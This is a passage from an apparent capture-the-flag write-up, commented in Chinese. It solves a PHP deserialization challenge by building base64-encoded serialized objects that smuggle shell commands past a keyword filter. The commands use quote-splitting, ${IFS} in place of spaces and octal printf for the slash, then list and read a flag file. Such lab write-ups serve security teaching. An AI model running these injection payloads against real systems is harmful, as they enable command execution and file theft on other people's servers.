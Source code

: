 ```php
      return $str;
    } else {
      echo "don't hack";
    }
  }

  //当执行反序列化的时候
  function __wakeup(){
    //反序列化的时候都会把参数拿来过一遍防火墙
    foreach($this->args as $k => $v) { //遍历数组
      $this->args[$k] = $this->waf($v);//调用waf过滤
    }
  }  
}

$ctf=@$_POST['ctf'];
@unserialize(base64_decode($ctf));//进行base64解码
?>
```

```php
在自己的环境里
<?php

class ease{

  private $method;
  private $args;

  function __construct($method, $args) {
    $this->method = $method;
    $this->args = $args;
  }

}

$a = new ease('ping',array('l""s${IFS}-l'));
$b = serialize($a);
echo base64_encode($b);

?>

可以看到flag_1s_here

$a = new ease('ping',array('l""s${IFS}f""lag_1s_here'));

可以看到
flag_831b69012c67b35f.php

正/被屏蔽了
可以把8进制的东西转为ascii字符串，八进制的/是\57
https://photo333.com/text-to-octal-zh.php
$(printf${IFS}"\57")  => /

$a = new ease('ping',array('c""at${IFS}f""lag_1s_here$(printf${IFS}"\57")f""lag_831b69012c67b35f.p""hp'));
```
